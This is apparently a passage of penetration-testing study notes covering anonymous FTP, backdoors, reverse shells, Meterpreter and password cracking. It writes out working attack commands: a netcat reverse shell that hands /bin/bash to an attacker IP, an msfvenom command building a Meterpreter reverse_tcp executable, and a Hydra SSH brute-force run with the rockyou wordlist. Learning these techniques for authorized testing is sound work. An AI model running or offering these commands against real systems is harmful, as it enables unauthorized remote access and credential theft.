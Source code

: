 
## FTP Information

- **Anonymous FTP:** Allows login with `anonymous` as the username and any password (often an email).
    - **Command (Nmap):**
        
        ```bash
        nmap --script ftp-anon -p 21 192.168.1.100
        ```
        
    - **Command (Manual):**
        
        ```bash
        ftp 192.168.1.100
        # Username: anonymous
        # Password: any@email.com
        ```
        

---

## Backdoors, Reverse Shells, and Meterpreter

- **Backdoor:** A hidden entry point into a system for persistent access.
- **Reverse Shell:** A shell where the target connects back to the attacker.
    - **Netcat Example:**
        
        ```bash
        nc -lvnp 4444  # Listener
        nc 192.168.1.10 4444 -e /bin/bash  # Target
        ```
        
- **Meterpreter:** A Metasploit payload for advanced post-exploitation.
    - **Command:**
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
        ```
        

---

## Password Cracking Approaches

- **Brute-Forcing:** Tries all possible combinations.
    - **Hydra Example:**
        
        ```bash
        hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
        ```
        